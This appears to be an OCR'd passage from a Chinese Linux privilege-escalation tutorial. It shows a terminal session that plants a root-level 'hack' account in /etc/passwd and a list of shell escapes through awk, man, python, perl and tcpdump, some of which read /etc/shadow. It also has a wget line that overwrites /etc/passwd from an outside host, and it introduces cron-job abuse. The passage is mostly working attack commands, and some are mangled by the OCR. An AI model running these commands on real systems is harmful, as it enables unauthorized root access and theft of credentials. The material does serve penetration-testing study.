 覆盖 /etc/shadow 或 /etc/passwd

[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ mv passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
nano

nano /etc/passwd

awk

awk ‘BEGIN {system(“/bin/sh”)}’

man

man passwd!/bin/bash

wget

wget http://192.168.56.1:8080/passwd -O /etc/passwd

apache

仅可查看文件，不能弹 shell：

apache2 -f /etc/shadow

tcpdump

echo $’idncat /etc/shadow’ > /tmp/.testchmod +x /tmp/.testsudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

python/perl/ruby/lua/php/etc

python

python -c “import os;os.system(‘/bin/bash’)”

perl

exec “/bin/bash”;

0x007 linux提权—利用定时任务（Cron jobs）
如果未正确配置Cronjob，则可以利用该Cronjob获得root特权。

1. Cronjob中是否有可写的脚本或二进制文件？
2.我们可以覆盖cron文件本身吗？
3. cron.d目录可写吗？

Cronjob通常以root特权运行。如果我们可以成功篡改cronjob中定义的任何脚本或二进制文件，那么我们可以以root特权执行任意代码。

什么是Cronjob？
Cron Jobs被用于通过在服务器上的特定日期和时间执行命令来安排任务。它们最常用于sysadmin任务，如备份或清理/tmp/目录等。Cron这个词来自crontab，它存在于/etc目录中。

例如：在crontab内部，我们可以添加以下条目，以每1小时自动打印一次apache错误日志。

11 0 * * * printf “” > /var/log/apache/error_log

前五个数字值表示执行cronjob的时间。现在让我们了解五个数字值。

分钟–第一个值表示介于0到59之间的分钟范围，而*表示任何分钟。
小时–第二个值表示小时范围在0到24之间，*表示任何小时。
月中的某天–第三个值表示月中的某日，范围是1到31，*表示任何一天。
月–第四个值表示1到12之间的月份范围，*表示任何月份。
星期几–第五个值表示从星期天开始的星期几，介于0到6之间，*表示星期几。
简而言之呢，crontab就是一个自定义定时器。
